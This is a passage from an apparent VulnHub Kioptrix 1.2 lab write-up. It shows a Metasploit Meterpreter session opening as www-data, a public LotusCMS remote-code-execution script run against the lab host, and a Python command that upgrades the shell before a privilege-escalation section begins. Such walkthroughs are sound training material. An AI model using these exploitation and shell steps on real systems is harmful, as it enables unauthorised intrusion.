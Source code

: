 ```bash
[*] Sending exploit ...
[*] Sending stage (38288 bytes) to 10.0.0.204
[*] Meterpreter session 1 opened (10.0.0.168:4444 -> 10.0.0.204:46096) at 2020-07-28 23:31:50 -0400

meterpreter > getuid
Server username: www-data (33)
meterpreter > 
```

We got a shell... idk though... I hate using MetaSploit _sometimes_ (not always). Let's see if we can be elitist and find a manual exploit for this vuln, after all it's from `2011`. There's bound to be one.

`~~~Googling~~~`

Okay, 30 seconds later, and we found [this](https://raw.githubusercontent.com/Hood3dRob1n/LotusCMS-Exploit/master/lotusRCE.sh)

Cool, let's try running it:

```bash
ein@~/VulnHub/Kioptrix1.2:$ ./lotusRCE.sh 10.0.0.204 /index.php
```

![Anti-script kiddie](/assets/images/VulnHub/Kioptrix1.2_9.PNG)

And we got a shell as `www-data`.

# Privilege Escalation

There _are_ the two other web login panels that we didn't check out. These might be entry points, but let's continue with our shell and see if there's a path forward to root.

Let's get started by upgrading our shell to a full tty using Python:

```bash
which python
/usr/bin/python
python -c "import pty; pty.spawn('/bin/bash');"
www-data@Kioptrix3:/home/www/kioptrix3.com$ 
```
